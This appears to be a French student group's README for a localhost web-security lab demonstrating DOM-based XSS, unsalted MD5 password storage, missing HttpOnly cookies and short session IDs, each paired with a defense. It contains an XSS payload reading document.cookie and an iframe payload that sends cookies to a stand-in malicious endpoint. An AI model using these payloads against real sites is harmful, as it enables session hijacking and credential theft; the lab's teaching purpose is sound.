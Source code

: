 # was-grp11
Groupe 11 (Youssra IBRAHIMI, Io ALFANO, Assia HAFID)
  
## DOM Based XSS  
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
On peut créer un bouton de la manière suivante http://localhost:port/dom_xss_1/atk_dom_xss_1.html?button=My%20custom%20button <br/>
**Attaque :** <br/>
Aller sur la page http://localhost:port/dom_xss_1/atk_dom_xss_1.html?button=<script>alert(document.cookie)</script> <br/>
Cela va générer une alerte avec le cookie. Le serveur va générer un objet DOM sans vérifier si le code contient un script malveillant. <br/>
**Defense :**<br/>
Pour contrer ce type d’attaque il faut utiliser un outil pour nettoyer le code avant de l’ajouter au DOM. Nous avons utilisé DOMPurify. <br/>
Quand du code JavaScript est repéré, il est supprimé avant d'être ajouté dans le DOM.<br/>
<br/>
## Password Salting
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
Initilisaliser la base de données en faisant `<sudo mysql < init_db_password.sql>`.<br/>
La page HTML permet de s’authentifier sur le compte de l’administrateur. Le serveur va récupérer le mot de passe de l’administrateur qui vaut MD5(‘admin123’) et va le comparer au mot de passe à tester sur lequel la fonction MD5 a été appliquée.<br/>
De cette manière un attaquant peut facilement retrouver le mot de passe grâce à des rainbow tables.<br/>
**Attaque :** <br/>
http://localhost:8080/def_password.php?password=admin123<br/>
**Defense :**<br/>
Pour générer un nouveau mot de passe nous avons utilisé le code suivant :<br/>
`<$salt = bin2hex(openssl_random_pseudo_bytes(22));>`<br/>
`<$hash = crypt($_GET['password'], "$2a$12$".$salt);>`<br/>
De cette manière un salt est généré aléatoirement pour chaque mot de passe et l’utilisation de rainbow tables devient plus compliqué.<br/>
<br/>
## Session HttpOnly
HttpOnly est un attribut des cookies qui permet d’indiquer aux navigateurs de ne pas laisser des scripts avoir accès aux cookies depuis le DOM. Le site vulnérable n’implémente pas HttpOnly.<br/>
**Attaque :**<br/>
L’attaquant a déposé un lien permettant d’envoyer une requête contenant les cookies sur un site malveillant. HttpOnly est désactivé.<br/>
`<<iframe src="javascript:document.location='http://localhost:8089/bad_session_httponly.php?cookie='+document.cookie"></iframe>>`<br/>
**Defense :**<br/>
Pour protéger ce site de ce genre d’attaque, il faut préciser aux navigateurs d’utiliser HttpOnly. De cette manière, un attaquant ne pourra pas récupérer des données contenues dans les cookies.<br/>
<br/>
## Session ID Length
**Attaque :**<br/>
Le site vulnérable créé un cookie en faisant un hachage d'une longueur de 64 bits. Pour exploiter la vulnérabilité il faut utiliser des rainbows tables composé de hachage et trouver le bon mot de passe qui génère le bon hachage.<br/>
**Defense :**<br/>
Pour améliorer la défense du site il faut augmenter la taille du session ID. Elle doit être de 128 bits minimum. Le nouveau site génère les session ID avec des hachages de 128 bits.<br/>
